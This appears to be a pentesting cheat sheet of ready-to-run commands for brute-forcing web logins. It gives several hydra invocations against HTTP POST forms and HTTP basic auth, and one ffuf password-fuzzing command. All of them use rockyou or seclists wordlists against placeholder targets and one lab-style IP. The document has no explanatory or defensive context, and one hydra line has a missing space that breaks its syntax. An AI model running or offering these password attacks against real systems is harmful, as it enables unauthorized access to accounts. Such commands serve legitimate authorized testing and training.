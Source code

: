 ## Hydra Bruteforce Password
```
hydra -l USER-P /usr/share/wordlists/rockyou.txt TARGET http-post-form "/api/login:username=^USER^&password=^PASS^:response"
```
### BASIC AUTH
```
hydra -l USER -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt "https-get://TARGET.com/client/:A=BASIC:F=401"
```

```
hydra -l USER -P /usr/share/wordlists/rockyou.txt 10.10.121.156 http-post-form "/login.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR" -t 64 -V
```


## FFUF Bruteforce Password
```
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d "username=admin\&password=FUZZ" -u https://target/login.php -fs 480
```



